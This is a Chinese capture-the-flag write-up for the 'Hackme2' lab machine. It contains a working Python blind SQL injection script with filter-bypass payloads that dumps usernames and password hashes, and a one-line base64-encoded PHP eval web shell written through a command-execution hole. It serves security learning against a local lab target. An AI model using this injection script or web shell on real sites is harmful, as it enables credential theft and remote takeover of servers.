





# Hackme2

## 初步信息收集


### ip+服务探测

和之前hackme1一模一样，没啥多说的直接开扫


### web目录扫描

也是类似的




## 布尔盲注

和上一题不一样这里有过滤，根据猜测是使用的like语句，同时过滤了空格、=等、写个脚本获取结果

```python
import requests


url = "http://172.20.10.6/welcome.php"


headers = {
    "cookie":"PHPSESSID=np84ueg24g6c04sr8jsu5rddch"
}

result = ''
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        # payload = f'if(ascii(substr((select/**/group_concat(schema_name)/**/from/**/information_schema.schemata),{i},1))>{mid},1,0)'
        # payload = f'if(ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()),{i},1))>{mid},1,0)'
        # payload = f'if(ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name="users"),{i},1))>{mid},1,0)'
        payload = f'if(ascii(substr((select/**/group_concat(user,"|",pasword)/**/from/**/users),{i},1))>{mid},1,0)'

        data = {
            "search": f"test%25'||{payload}#"
        }
        r = requests.post(url, data=data, headers=headers)
        if "Anonymous Hackers" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```

结果

```
user1|5d41402abc4b2a76b9719d911017c592,user2|6269c4f71a55b24bad0f0267d9be5508,user3|0f359740bd1cda994f8b55330c86d845,test|05a671c66aefea124cc08b76ea6d30bb,superadmin|2386acb2cf356944177746fc92523983,test1|05a671c66aefea124cc08b76ea6d30bb,aaaaaa|0b4e7a0e5fe84ad35fb5f95b9ceeac79

```

同样获取管理员密码`Uncrackable`

## 文件上传

同样的直接上传被过滤了



经过测试是过滤了后缀名，并且大小写都不行，比如说可以上传`.user.ini .htaccess`但是另一方面并不知道上传的目录文件名，所以只能放弃了


## RCE

尝试一些基本类型比如SSTI




毕竟之前的用户都搜不到，所以不是sql查询，猜测可能要么调用了系统命令并且可能有eval，之后发现反引号成功执行命令



猜测用到了eval，写个shell进去

```
file_put_contents("1.php",base64_decode("PD9waHAgZXZhbCgkX1BPU1RbMV0pOw=="));
```

## 提权

一样的思路成功提权root


